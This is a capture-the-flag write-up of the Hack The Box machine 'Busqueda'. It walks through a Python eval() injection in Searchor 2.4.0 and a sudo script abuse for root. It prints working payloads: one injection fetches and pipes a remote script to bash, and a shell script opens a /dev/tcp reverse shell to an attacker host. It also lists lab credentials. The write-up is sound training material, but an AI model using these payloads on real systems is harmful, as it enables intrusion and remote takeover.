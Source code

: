 ```yaml
---
title: HTB Busqueda
author: hanhctf
date: 2023-04-10 22:22:22 +0700
categories: [Write-up, HTB]
tags: [eval(), python, code review]
toc: true
mermaid: true
---
```


# [**Busqueda**](https://www.hackthebox.com/achievement/machine/108910/537)

## NMAP

`sudo nmap -sC -sV -Pn 10.129.48.104 -oN nmap`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## FOOTHOLD

First of all, add searcher.htb to /etc/hosts  

After analyze website, found a link to github repo Searchor 2.4.0

Found a vuln of searchor follow this link <https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303>

Found in this article <https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html> payload  

`eval(compile('for x in range(1):\n import time\n time.sleep(20)','a','single'))`
![](/commons/HTB/Busqueda/1.ACE_vuln.png)

==> payload to get reverse shell
`'+eval(compile('for x in range(1):\n import os\n os.system("curl http://<attacker_IP>/rev.sh|bash")','a','single'))+'`  
![](/commons/HTB/Busqueda/2.got_rev_shell_burp.png)

**Got user.txt flag**

## Privilege Escalation  

After research, we found ssh cred of svc **jh1usoih2bkjaspwe92**
~[](/commons/HTB/Busqueda/3.ssh_cred_svc.png)

```shell
vc@busqueda:/opt/scripts$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
    
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

1. Run `sudo -l`   ⇒ see `/opt/scripts/system-checkup.py` with 3 option
2. ***Option1***: `docker-ps`   ⇒ 2 dockers are **gitea** and **mysql_db**

```shell
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS        PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 11 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 11 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

3. ***Option2***: docker-inspect  ⇒  cred log in gitea.searcher.htb administrator:**yuiu1hoiu4i5ho1uh**

```shell
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
--format={"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

4. Login as administrator ⇒ analyze code ⇒ code that can exploit.
![](/commons/HTB/Busqueda/5.vuln_code.png)

5. We move to `/tmp` dir ⇒ create an execution  file  `full-checkup.sh`

```shell
#!/bin/bash

bash -i &> /dev/tcp/<attackerIP>/port 0>&1
```

6. Run `listener` on other attacker terminal and run

```shell
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```  
